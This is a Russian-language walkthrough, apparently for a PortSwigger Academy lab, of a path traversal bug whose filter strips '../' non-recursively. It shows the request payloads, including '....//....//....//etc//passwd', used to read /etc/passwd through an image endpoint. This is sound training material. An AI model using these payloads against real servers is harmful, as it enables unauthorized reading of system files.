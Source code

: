 При загрузке веб-ресурса заметим, что идут отдельные GET запросы к веб-серверу и отправим данный запрос в repeater
```
GET /image?filename=51.jpg
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/3.%20Directory%20traversal/3.%20File%20path%20traversal%2C%20traversal%20sequences%20stripped%20non-recursively/pics%20for%20walktrough/1.png)

Применим уязвимость Path traversal в ее классическом стиле
```
GET /image?filename=../../../etc/passwd
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/3.%20Directory%20traversal/3.%20File%20path%20traversal%2C%20traversal%20sequences%20stripped%20non-recursively/pics%20for%20walktrough/2.png)

Получаем, что она не работает в ее классическом стиле. Изменим на вложенную систему обхода `....//` или  `....\/`, которые вернутся к простым последовательностям обхода при удалении внутренней последовательности

```
GET /image?filename=....//....//....//etc//passwd
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/3.%20Directory%20traversal/3.%20File%20path%20traversal%2C%20traversal%20sequences%20stripped%20non-recursively/pics%20for%20walktrough/3.png)

Тем самым, мы добрались до заветного файла /etc/passwd
